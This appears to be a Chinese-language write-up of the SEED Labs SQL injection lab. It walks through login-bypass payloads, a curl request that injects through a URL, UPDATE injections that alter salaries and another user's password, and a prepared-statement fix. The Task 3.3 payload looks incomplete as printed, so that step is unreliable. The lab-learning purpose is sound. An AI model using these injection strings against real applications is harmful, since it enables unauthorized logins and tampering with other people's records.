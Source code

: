 ```yaml
---
layout: post
title: "SQL Injection Attack Lab"
date: 2024-04-30
categories: [SEED Labs, Web Security]
tags: [SQL-Injection]
---
```


# SQL Injection Attack Lab

# Lab Setup

我用的是mac M2芯片，所以要去官网下载arm64版本，然后启动docker。

# Task 1: Get Familiar with SQL Statements

使用SQL语句查询Alice：

```sql
select * from credential where Name='Alice';
```

# Task 2: SQL Injection Attack on SELECT Statement

## Task 2.1: SQL Injection Attack from webpage

username把后边的内容注释掉，注意’--’后边要加一个空格否则不会被识别为注释：

```sql
Admin';-- 
```

## Task 2.2: SQL Injection Attack from command line

用URL编码好，然后使用curl指令：

```bash
curl 'http://www.seed-server.com/unsafe_home.php?username=Admin%27%3B--%20&Password='
```

## Task 2.3: Append a new SQL statement

把Admin改成J3rry：

```sql
Admin'; update credential set name='J3rry' where id=6;-- 
```

注入失败，这是因为’mysqli::query()’不允许多个语句执行。

# Task 3: SQL Injection Attack on UPDATE Statement

## Task 3.1: Modify your own salary

注意到phonenumber在sql查询的最后，所以用单引号闭合然后修改salary，把后面的注释掉：

```sql
', salary='99999' where name='Alice';-- 
```

## Task 3.2: Modify other people’ salary

Alice是个狠人：

```sql
', salary='1' where name='Boby';-- 
```

## Task 3.3: Modify other people’ password

还是和上边一样，直接在Password里边填入新密码，然后再phonenumber里边填入sql注入语句：

```sql
', where name='Boby';-- 
```

然后用新密码登陆Boby。

# Task 4: Countermeasure — Prepared Statement

预处理阶段在编译阶段和执行阶段之间，他只接受SQL语句中的数据部分，然后发送给执行阶段。因为数据中的内容没有经历编译阶段，所以即使数据中有SQL语句也不会被执行的。

比如下边这段代码，用’?’代表数据位置，先把编译好的SQL语句发过去，然后再把数据发过去，其中’is’的意思是，第一个数据的类型是int——’i’，第二个是string——’s’。

```php
$stmt = $conn->prepare("SELECT name, local, gender
FROM USER_TABLE
WHERE id = ? and password = ? ");
// Bind parameters to the query
$stmt->bind_param("is", $id, $pwd);
$stmt->execute();
$stmt->bind_result($bind_name, $bind_local, $bind_gender);
$stmt->fetch();
```

可以看到SQL注入仍然成功：

```sql
Admin';-- 
```

把源码修改为预处理语句：

```php
$stmt = $conn->prepare("SELECT id, name, eid, salary, ssn
                        FROM credential
                        WHERE name= ? AND Password= ?");
$stmt->bind_param("ss", $input_uname, $hashed_pwd);

$stmt->execute();
$result = $stmt->get_result();
```

此时SQL注入就失效了。
